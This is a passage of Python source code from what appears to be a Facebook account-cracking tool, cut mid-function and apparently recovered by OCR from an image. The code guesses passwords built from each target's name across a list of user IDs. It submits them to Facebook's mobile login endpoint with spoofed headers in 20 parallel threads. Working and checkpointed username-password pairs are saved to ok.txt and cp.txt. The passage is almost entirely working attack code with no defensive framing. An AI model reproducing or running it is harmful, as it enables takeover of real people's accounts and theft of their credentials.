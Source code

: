 			_headers = {"Host":"mbasic.facebook.com","cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":"Mozilla/5.0 (Linux; Android 12; SAMSUNG SM-G780G) AppleWebKit/537.36 (KHTML, like Gecko) SamsungBrowser/16.0 Chrome/92.0.4515.166 Mobile Safari/537.36","accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/index.php?next=https%3A%2F%2Fdevelopers.facebook.com%2Ftools%2Fdebug%2Faccesstoken%2F","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"}
			po = ses.post("https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0", data = dataa, headers=_headers, allow_redirects = False)
			if 'c_user' in ses.cookies.get_dict():
				print('\r\033[1;37m[\033[1;32mPSYCHO-OK\033[1;37m]\033[1;32m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('ok.txt','a').write('%s\n' % wrt)
				break
			elif 'checkpoint' in ses.cookies.get_dict():
				print('\r\033[1;31m[\033[1;30mPICCHI-CP\033[1;31m]\033[1;30m %s | %s      ' % (user,pw))
				wrt = '%s - %s' % (user,pw)
				ok.append(wrt)
				open('cp.txt','a').write('%s\n' % wrt)
				break
			else:
				continue
		loop += 1
	def __pler__(self):
		self.id = open('.publicout.txt','r').read().splitlines()
		os.system("clear");print(banner);time.sleep(1)
		print('\033[1;37m[+]\033[1;33m PUBLIC CLONING CP/OK IDS MIX ')
		print('\033[1;37m[+]\033[1;36m TOTAL IDS \033[1;91m: \033[1;32m%s ' % len(self.id))
		print('\033[1;37m[+]\033[1;36m PROCESS HAS BEEN STARTED')
		print(50*"\033[1;37m_")
		print('      \033[1;97m\033[1;41m [ IF  NO RESULT USE AIRPLANE MODE ] \033[0m\033[1;93m')
		print(50*"\033[1;37m_")
		with ThreadPoolExecutor(max_workers=20) as (_ngentot_gratis_):
			for yntkts in self.id:
				try:
					uid, name = yntkts.split('|')
					xz = name.split(' ')
					if len(xz) == 1:
						pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'786', xz[0]+xz[0]+'1234']
					elif len(xz) == 2:
						pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'786', xz[0]+xz[0]+'1234']
					elif len(xz) == 3:
						pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'786', xz[0]+xz[0]+'1234']
					elif len(xz) == 4:
						pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'786', xz[0]+xz[0]+'1234']
					else:
						pwx = [name, xz[0]+xz[1], xz[0]+"123", xz[0]+"12345", xz[0]+'786', xz[0]+xz[0]+'1234']
					_ngentot_gratis_.submit(self.__mbasic__, uid, pwx)
				except:
					pass
		hasil(ok,cp)
		